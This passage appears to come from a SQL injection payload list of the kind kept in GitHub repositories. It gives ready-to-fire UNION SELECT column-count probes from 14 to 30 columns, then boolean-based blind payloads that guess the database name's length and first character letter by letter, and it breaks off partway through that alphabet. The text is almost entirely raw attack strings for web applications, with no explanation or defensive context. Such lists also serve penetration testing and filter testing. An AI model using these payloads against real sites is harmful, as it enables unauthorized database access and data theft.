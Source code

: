 ```
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29 --
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 --
```

## Payload Boolean-based blind

```
' AND 1=1 --
' AND 1=2 --
' AND 'a'='a' --
' AND 'a'='b' --
' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 --
' AND (SELECT COUNT(*) FROM information_schema.tables) > 1000 --
' AND (SELECT LENGTH(DATABASE())) > 0 --
' AND (SELECT LENGTH(DATABASE())) = 1 --
' AND (SELECT LENGTH(DATABASE())) = 2 --
' AND (SELECT LENGTH(DATABASE())) = 3 --
' AND (SELECT LENGTH(DATABASE())) = 4 --
' AND (SELECT LENGTH(DATABASE())) = 5 --
' AND (SELECT LENGTH(DATABASE())) = 6 --
' AND (SELECT LENGTH(DATABASE())) = 7 --
' AND (SELECT LENGTH(DATABASE())) = 8 --
' AND (SELECT LENGTH(DATABASE())) = 9 --
' AND (SELECT LENGTH(DATABASE())) = 10 --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'a' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'b' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'c' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'd' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'e' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'f' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'g' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'h' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'i' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'j' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'k' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'l' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'm' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'n' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'o' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'p' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'q' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'r' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 's' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 't' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'u' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'v' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'w' --
' AND (SELECT SUBSTRING(DATABASE(),1,1)) = 'x' --
```